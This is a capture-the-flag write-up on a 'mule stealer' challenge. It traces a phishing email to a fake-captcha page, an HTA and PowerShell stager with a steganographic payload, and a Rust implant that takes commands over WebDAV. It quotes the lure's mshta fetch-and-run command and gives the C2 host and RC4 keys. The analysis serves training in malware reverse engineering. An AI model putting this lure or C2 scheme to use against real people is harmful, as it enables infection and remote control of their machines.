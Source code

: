 # A mule stealer - Writeup

The description of the challenge mentions a weird attachment. The file provided with the challenge is an .eml file containing an email message. To solve the challenge, participants were required to conduct analysis of this file, extract the final malicious payload and reverse engineer it.

## Step 1 - Email file analysis

The provided email file has the following contents: 
<p align="center"><img width="455" src="./images/1.png" /></p>


As can be observed, the email prompts the target user to click on the link in the message to view a video. The link to this video is ```https://verifycert.task.sasc[.]tf/video/view.html```.

## Step 2 - Malicious URL analysis

When a page opened in the browser, the URL displays the following captcha page, which prompts the user to copy and paste the clipboard contents into the Run window:

<p align="center"><img width="306" src="./images/2.png" /></p>

Analysis of the source HTML code further reveals that the webpage copies the command ```mshtа https://verifycert.task.sasc[.]tf/video/cat_rabbit.mp4 #  ✅ ''I am not a rоbоt - reCАPTCHA Vеrificatiоn ID: 2165``` into the clipboard. This command is designed to retrieve an HTA (HTML file supporting Windows scripting languages) file from a remote server and execute it. As such the code of this page implements the [Fake Captcha](https://securelist.com/lumma-fake-captcha-attacks-analysis/116274/) infection technique. 

The downloaded HTA file is designed to execute a VBS script designed to run a PowerShell command, as shown by the screenshot below.

<p align="center"><img width="526" src="./images/3.png" /></p>

## Step 3 - PowerShell command analysis

The executed PowerShell command is stored in the HTA file as a Base64-encoded UTF-16LE string. This command, as can be seen from the screenshot below, is designed to download a payload from the ```https://verifycert.task.sasc[.]tf/flag.png```. Although named ```flag.png```, the image hosted on this URL is a 20MB rickroll. Having downloaded this PNG file, the PowerShell command extracts a steganographically embedded payload from it with the LSB algorithm, with the payload being stored in the red channel. This payload is a 4.5 MB Windows executable, which gets saved to the path ```%LOCALAPPDATA%\Temp\svchost.exe``` and then launched.

<p align="center"><img width="426" src="./images/4.png" /></p>

## Step 4 - Dropped executable analysis

The executable is a malicious payload coded in Rust. An examination of its strings can help reveal its C2 server address, ```http://backupstorage.task.sasc[.]tf```. Examining cross-references to the string with this address makes it possible to reveal the main malicious function of this payload, located at relative virtual address ```0x23F70```. Analysis of this function (to reverse engineer it timely, it is recomended to use both static and dynamic analysis) reveals that the malicious payload executes the following loop with the following actions:

- Connect to the C2 server via the WEBDAV protocol and list files inside the /in directory of the server;
- Retrieve each file in the /in directory and decrypt it with RC4 to obtain a shell command (hex-encoded key: ```9f811cee6f10a88d6d5249805b9ba5f8e06c9f00f025593812ba1d4a4ed833fd```);
- Execute the obtained command;
- Encrypt the command output with RC4 (hex-encoded key: ```09dc6e7f7782a4b5877bd0267fc3605fdfe126b95a46c0be63d0740ee80eee46```) and upload the encrypted file to the C2 server inside the /out directory.

## Step 5 - C2 server activity analysis

An examination of the directory contents reveals that the ```/in``` and ```/out``` folders of the C2 server store files named ``exfiltr8.txt```: 
<p align="center"><img width="500" src="./images/5.png" /></p>

The file inside the ```/in``` folder [decrypts](https://gchq.github.io/CyberChef/#recipe=RC4(%7B'option':'Hex','string':'9f811cee6f10a88d6d5249805b9ba5f8e06c9f00f025593812ba1d4a4ed833fd'%7D,'Latin1','Latin1')&input=g09ml2BgXEDI4vnrFQ) into the string ```type flag.txt```, which represents a command to display contents of the ```flag.txt``` file. The file in the ```/out``` folder [decrypts](https://gchq.github.io/CyberChef/#recipe=RC4(%7B'option':'Hex','string':'09dc6e7f7782a4b5877bd0267fc3605fdfe126b95a46c0be63d0740ee80eee46'%7D,'Latin1','Latin1')&input=AYKd3hGoR6yEtRBeK6S8THh8QlqX/31kHPm1EK0OHRcMPJiQQLZ0dWWbkF5%2BZg&oeol=FF) to the contents `SAS{c475_w17h_r4bb17_34r5_c4n_d3liv4r_m4lw4r3}`, which is the flag for the challenge.
